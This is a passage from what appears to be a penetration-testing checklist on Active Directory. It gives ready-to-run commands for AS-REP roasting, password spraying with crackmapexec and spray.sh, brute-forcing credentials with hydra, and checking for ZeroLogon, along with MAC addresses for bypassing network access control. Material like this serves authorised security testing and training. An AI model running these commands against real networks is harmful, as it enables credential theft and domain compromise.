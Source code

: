     
- [ ] AS-REP Roasting (pre-authentication disabled accounts)
  ```bash
  GetNPUsers.py domain.local/ -usersfile users.txt -request -dc-ip <DC_IP> -format hashcat
  ```
  - *Why*: Accounts with Kerberos pre-authentication disabled are vulnerable
  - *What to look for*: Encrypted TGTs that can be cracked offline

## 4. Initial Access & Foothold

> Initial access involves gaining the first foothold in the target environment. This phase exploits weaknesses in authentication mechanisms, vulnerable services, and network protocols to establish a presence within the network.

### Authentication Bypass
- [ ] NAC Bypass (802.1x) techniques
  - [ ] Try different MAC addresses (VMWARE VM, Apple devices, network equipment)
    ```
    VMWARE VM: 00-0C-29-00-4B-3F
    Apple: F8:FF:C2:23:32:43
    ```
  - *Why*: Network Access Control systems may whitelist certain device types
  - *What to look for*: Successful network connectivity after MAC spoofing

- [ ] Check for open network ports without authentication
  - *Why*: Some networks have improperly secured network jacks
  - *What to look for*: Network ports in public areas or guest networks with internal access

### Password Attacks
- [ ] Password spray common passwords
  ```bash
  # With CrackMapExec
  crackmapexec smb <target> -u users.txt -p passwords.txt
  
  # Test username=password
  for user in $(cat users.txt); do crackmapexec smb <target> -u $user -p $user -d domain.local; done
  
  # Using Spray
  spray.sh -smb <target> users.txt seasons.txt 3 15 domain.local
  ```
  - *Why*: Users often use weak, predictable passwords
  - *What to look for*: Successful authentications, avoid account lockouts by limiting attempts
  
- [ ] Test default credentials on discovered services
  ```bash
  hydra -L users.txt -P passwords.txt <target> service
  ```
  - *Why*: Many services retain default credentials after installation
  - *What to look for*: Administrative interfaces, network devices, and applications

### Exploiting Specific Vulnerabilities
- [ ] Check for ZeroLogon vulnerability
  ```bash
  crackmapexec smb <target> -u 'user' -p 'password' -M zerologon
  ```
  - *Why*: ZeroLogon (CVE-2020-1472) allows domain controller compromise
  - *What to look for*: Vulnerable domain controllers that can be exploited
